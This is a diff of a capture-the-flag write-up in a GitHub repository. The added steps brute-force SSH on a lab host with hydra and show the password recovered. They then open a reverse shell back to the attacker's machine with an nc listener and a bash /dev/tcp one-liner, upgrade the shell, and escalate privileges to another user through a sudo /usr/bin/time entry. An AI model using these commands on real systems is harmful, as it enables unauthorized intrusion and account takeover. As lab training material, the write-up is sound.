

Before and after one commit to 0xt1m/ctf, a Markdown page: Red1/report.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
got ippsec and shell

````diff
--- a/Red1/report.md
+++ b/Red1/report.md
@@ -69,4 +69,37 @@ Our command will look like this:<br>
 ```
 hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
 ```
-Now, we have got our custom wordlist. Let's try to bruteforce into `ssh`.
+Now, we have got our custom wordlist. Let's try to bruteforce into `ssh`.<br>
+```hydra -l john -P custom_wordlist.txt ssh://10.0.4.7```
+> [22][ssh] host: 10.0.4.7   login: john   password: R3v_m4lwh3r3_k1nG!!02<br>
+Looks like it worked.<br>
+
+When we try to use `cat` command it runs `vi`, but when we use `vi` it runs `cat`.<br>
+We can see that there is thee users:<br>
+> ippsec<br>
+> john <br>
+> oxdf <br>
+
+After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicks us out. The same password does not work, but we can brute force it again.<br>
+
+### Upgrading our shell so we do not get kick out.
+1. Start a nc listener. `nc -lvnp 4444`
+2. Run a simple reverse-shell on the victim machine. `bash -i >& /dev/tcp/10.0.4.4/4444 0>&1`
+3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` in our new reverse-shell.
+4. *ctrl-z*
+5. `stty raw -echo; fg`
+9. `export TERM=xterm`
+<br>
+So now we have our new shell. Let's look how we can escalate our privileges.<br>
+The simplest way is to run `sudo -l` <br>
+```
+User john may run the following commands on red:
+    (ippsec) NOPASSWD: /usr/bin/time
+```
+This is what we got.<br>
+Go to https://gtfobins.github.io/gtfobins and find what we can do with /usr/bin/time.<br>
+`sudo /usr/bin/time /bin/sh`<br>
+However, by default sudo will try to run a tool with the privileges of root user, but we have only privileges of ippsec, so we need specify our user, so our command will look like:<br>
+`sudo -u ippsec /usr/bin/time /bin/sh`<br>
+_It is better to escalate our privileges to *ippsec* before we upgrade our shell_<br>
+Let's look can we escalate our privileges to root.<br>
````
